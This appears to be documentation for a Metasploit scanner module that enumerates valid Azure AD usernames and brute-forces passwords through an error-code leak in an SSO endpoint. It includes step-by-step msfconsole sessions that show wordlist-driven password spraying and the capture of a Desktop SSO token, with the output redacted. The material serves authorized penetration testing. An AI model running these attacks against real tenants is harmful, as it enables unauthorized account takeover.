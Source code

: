 ## Vulnerable Application

The Microsoft Azure AD service has a vulnerable endpoint that delivers an error-code based response
to specific authentication requests in XML. The endpoint, when passed the correct credentials,
will respond with a DesktopSsoToken that can be used to authenticate to Azure AD. When
the authentication is unsuccessful, the error code that is returned can be used to discover the
validity of usernames in the target tenant.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/azure_ad_login`
- [ ] `set username USER_OR_FILE`
- [ ] `set password PASSWORD_OR_FILE`
- [ ] `set domain DOMAIN`
- [ ] `run`
- [ ] Check output for validity of your test username(s), and password(s)


## Options

### domain

The target tenant domain to use for the username checks.

### username

Either a specific username to verify or a file with one username per line to verify.

### password

Either a specific password to attempt or a file with one password per line to verify.

## Scenarios
If a tenant's domain is known, you can use this module for username and password brute-forcing.

Specific target output replaced with *s so as not to disclose information
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set password /home/kali/pass.txt
pass => /home/kali/pass.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set domain example.com
domain => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

msf6 auxiliary(scanner/http/azure_ad_login) > run

[*] Running for *.*.*.*...
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[+] Password Password1! is invalid but example.com\**** is valid!
[+] Login example.com\****:****** is valid!
[+] Desktop SSO Token: *******************************************
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If a tenant's domain is known, you can enumerate their usernames
    
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set password password
pass => password
msf6 auxiliary(scanner/http/azure_ad_login) > set domain example.com
domain => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

[*] Running for 127.0.0.1...
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against current Azure AD tenants.

## References
- https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/
- https://github.com/treebuilder/aad-sso-enum-brute-spray
